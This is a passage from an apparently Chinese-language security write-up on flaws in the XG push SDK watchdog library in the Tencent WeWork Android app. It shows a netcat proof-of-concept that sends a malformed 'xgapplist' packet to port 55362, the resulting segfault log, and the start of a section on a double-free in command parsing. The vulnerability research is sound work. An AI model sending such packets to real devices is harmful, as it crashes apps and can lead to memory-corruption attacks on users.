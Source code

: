 向55362端口发送一个最简单的数据包，

```
echo -n "xgapplist:A" | nc -v 192.168.8.169 55362<br style="text-align: left">
```

使用logcat可观察到Oops：

```
I/DEBUG   (  243): *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***<br style="text-align: left">I/DEBUG   (  243): Build fingerprint: 'google/hammerhead/hammerhead:4.4.4/KTU84P/1227136:user/release-keys'<br style="text-align: left">I/DEBUG   (  243): Revision: '11'<br style="text-align: left">I/DEBUG   (  243): pid: 11774, tid: 11774, name: xg_watchdog  &gt;&gt;&gt; /data/data/com.tencent.wework/lib/libtpnsWatchdog.so &lt;&lt;&lt;<br style="text-align: left">I/DEBUG   (  243): signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 00000000<br style="text-align: left">I/DEBUG   (  243):     r0 4008a2d8  r1 40083d28  r2 ffffff78  r3 00000000<br style="text-align: left">I/DEBUG   (  243):     r4 400165c6  r5 00000002  r6 0000000a  r7 00000000<br style="text-align: left">I/DEBUG   (  243):     r8 400120d9  r9 00000000  sl 00000000  fp bed838ec<br style="text-align: left">I/DEBUG   (  243):     ip 40018f68  sp bed7f6e8  lr 400125e5  pc 4006aab0  cpsr 000f0030<br style="text-align: left">I/DEBUG   (  243):     d0  0000000000000000  d1  0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d2  0000000000000000  d3  0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d4  0000000000000000  d5  0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d6  0000000000000000  d7  0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d8  0000000000000000  d9  0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d10 0000000000000000  d11 0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d12 0000000000000000  d13 0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d14 0000000000000000  d15 0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d16 41db6820b9bcac08  d17 3f50624dd2f1a9fc<br style="text-align: left">I/DEBUG   (  243):     d18 419908a090000000  d19 0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d20 0000000000000000  d21 0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d22 0000000000000000  d23 0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d24 0000000000000000  d25 0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d26 0000000000000000  d27 0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d28 0000000000000000  d29 0000000000000000<br style="text-align: left">I/DEBUG   (  243):     d30 0000000000000000  d31 0000000000000000<br style="text-align: left">I/DEBUG   (  243):     scr 00000010<br style="text-align: left">I/DEBUG   (  243):<br style="text-align: left">I/DEBUG   (  243): backtrace:<br style="text-align: left">I/DEBUG   (  243):     #00  pc 0002aab0  /system/lib/libc.so (strtoimax+31)<br style="text-align: left">I/DEBUG   (  243):     #01  pc 000015e1  /data/app-lib/com.tencent.wework-1/libtpnsWatchdog.so<br style="text-align: left">I/DEBUG   (  243):     #02  pc 00002787  /data/app-lib/com.tencent.wework-1/libtpnsWatchdog.so<br style="text-align: left">I/DEBUG   (  243):     #03  pc 0000124f  /data/app-lib/com.tencent.wework-1/libtpnsWatchdog.so<br style="text-align: left">I/DEBUG   (  243):     #04  pc 0000e34b  /system/lib/libc.so (__libc_init+50)<br style="text-align: left">I/DEBUG   (  243):     #05  pc 00001390  /data/app-lib/com.tencent.wework-1/libtpnsWatchdog.so<br style="text-align: left">I/DEBUG   (  243):<br style="text-align: left">
```

**<br>**

**0x05 double free内存破坏**



仍然观察xgapplist命令，程序接收socket端口传入的命令xgapplist:&lt;packagename&gt;,&lt;accid&gt;;&lt;packgename2&gt;,&lt;accid2&gt;;…;&lt;packagenamen&gt;,&lt;accidn&gt;; 时，程序会对上述命令进行解析，分配xgappinfo对象，并依次将不重复的xgappinfo（使用XG SDK的app的信息）对象存入全局数组xgappinfo_list
